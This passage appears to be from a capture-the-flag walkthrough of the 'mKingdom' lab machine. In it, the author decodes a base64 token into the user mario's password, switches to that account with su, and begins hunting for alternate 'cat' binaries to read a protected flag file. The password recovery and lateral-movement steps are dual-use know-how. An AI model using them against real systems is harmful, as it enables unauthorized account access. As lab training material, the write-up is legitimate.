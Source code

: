 - After decoding the `PWD_token` I found Mario's password.

  ```
  echo 'aWthVGVOVEFOdEVTCg==' | base64 -d                                       
  ikaTeNTANtES
  
  toad@mkingdom:/usr/bin$ su mario
  Password: 
  mario@mkingdom:/usr/bin$ whoami
  mario
  mario@mkingdom:/usr/bin$ id
  uid=1001(mario) gid=1001(mario) groups=1001(mario)
  ```

- IT'S A MIA MARIO! You can read the first flag and move to root escalation.

  ```
  mario@mkingdom:~$ ls -al
  total 96
  drwx------ 15 mario mario 4096 Jan 29  2024 .
  drwxr-xr-x  4 root  root  4096 Jun  9  2023 ..
  lrwxrwxrwx  1 mario mario    9 Jun  9  2023 .bash_history -> /dev/null
  -rw-r--r--  1 mario mario  220 Jun  7  2023 .bash_logout
  -rw-r--r--  1 mario mario 3637 Jun  7  2023 .bashrc
  drwx------ 11 mario mario 4096 Jan 26  2024 .cache
  drwx------  3 mario mario 4096 Jan 29  2024 .compiz
  drwx------ 14 mario mario 4096 Jan 26  2024 .config
  drwxr-xr-x  2 mario mario 4096 Jan 26  2024 Desktop
  -rw-r--r--  1 mario mario   25 Jan 26  2024 .dmrc
  drwxr-xr-x  2 mario mario 4096 Jan 26  2024 Documents
  drwxr-xr-x  2 mario mario 4096 Jan 26  2024 Downloads
  drwx------  3 mario mario 4096 Jan 29  2024 .gconf
  -rw-------  1 mario mario 1026 Jan 29  2024 .ICEauthority
  drwx------  3 mario mario 4096 Jan 26  2024 .local
  drwxr-xr-x  2 mario mario 4096 Jan 26  2024 Music
  drwxr-xr-x  2 mario mario 4096 Jan 26  2024 Pictures
  -rw-r--r--  1 mario mario  675 Jun  7  2023 .profile
  drwxr-xr-x  2 mario mario 4096 Jan 26  2024 Public
  drwxr-xr-x  2 mario mario 4096 Jan 26  2024 Templates
  -rw-r--r--  1 root  root    38 Nov 27  2023 user.txt
  drwxr-xr-x  2 mario mario 4096 Jan 26  2024 Videos
  -rw-------  1 mario mario   57 Jan 29  2024 .Xauthority
  -rw-------  1 mario mario 1581 Jan 29  2024 .xsession-errors
  -rw-------  1 mario mario  805 Jan 26  2024 .xsession-errors.old
  mario@mkingdom:~$ cat user.txt 
  cat: user.txt: Permission denied
  ```

- You thought it was that easy huh? I have a pretty cool technique for this, search for all the `cat` files on the system.

  ```
  mario@mkingdom:~$ find / -type f -name cat 2>/dev/null
  /bin/cat
  /usr/lib/klibc/bin/cat
  ```
